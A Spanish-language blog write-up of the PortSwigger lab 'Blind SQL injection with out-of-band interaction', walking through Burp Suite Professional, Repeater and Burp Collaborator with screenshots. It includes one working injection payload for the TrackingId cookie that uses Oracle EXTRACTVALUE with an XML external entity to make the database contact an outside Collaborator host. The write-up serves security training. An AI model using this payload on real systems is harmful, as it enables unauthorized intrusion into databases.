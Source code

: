 ```yaml
---
title: PortSwigger - Blind SQL injection with out-of-band interaction
layout: post
post-image: /assets/images/gatohacker4.jpg 
description: La resolución del reto Blind SQL injection with out-of-band interaction. 
tags:
- portswigger
- sqli
- post
- writeups
---
```

# Solución
---

> Nota:
>
> Este reto solo se puede resolver con Burpsuite Professional

Vamos a la página principal.

![](/images/images-portswigger-sqli/lab15-3.png)

Primero configura la extensión [FoxyProxy](https://getfoxyproxy.org/) para que funcione con Burpsuite, después ve a Burpsuite y haz click en el botón **Intercept is off** para que quede en azul.

![](/images/images-portswigger-sqli/lab15-1.png)

![](/images/images-portswigger-sqli/lab15-2.png)

Volvemos al navegador y recargamos la página.

![](/images/images-portswigger-sqli/lab15-4.png)

Vemos la petición, hacemos click derecho y marcamos la opción **Send to Repeater**.

![](/images/images-portswigger-sqli/lab15-5.png)

Luego vamos a la pestaña **Repeteater**.

![](/images/images-portswigger-sqli/lab15-6.png)

Acá podemos modificar la petición con más comodidad.

![](/images/images-portswigger-sqli/lab15-7.png)

Necesitaremos el Burp Collaborator para realizar este ataque, así que vamos al botón de la esquina que dice Burp y seleccionamos **Burp Collaborator client**. Si no te sale esta opción es porque no tienes el Burpsuite Professional.

![](/images/images-portswigger-sqli/lab15-8.png)

Deberías tener una pestaña parecida a esta.

![](/images/images-portswigger-sqli/lab15-9.png)

Haces click en el botón **Copy to clipboard**.

![](/images/images-portswigger-sqli/lab15-10.png)

Volvemos a la pestaña **Repeater** y en el valor de la cookie TrackingId agregamos esta query:

```bash
'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//acá_pegas_el_valor_que_copiaste_anteriormente/">+%25remote%3b]>'),'/l')+FROM+dual--
```

![](/images/images-portswigger-sqli/lab15-17.png)

Haces click en el botón **Send**.

![](/images/images-portswigger-sqli/lab15-19.png)

Obtenemos una respuesta con el código 200 OK.

![](/images/images-portswigger-sqli/lab15-21.png)

Volvemos a la pestaña de Burp Collaborator y hacemos click en **Poll now**.

![](/images/images-portswigger-sqli/lab15-14.png)

Y veremos el resultado.

![](/images/images-portswigger-sqli/lab15-18.png)

Volvemos a la página principal del laboratorio y resolvemos el reto.

![](/images/images-portswigger-sqli/lab15-20.png)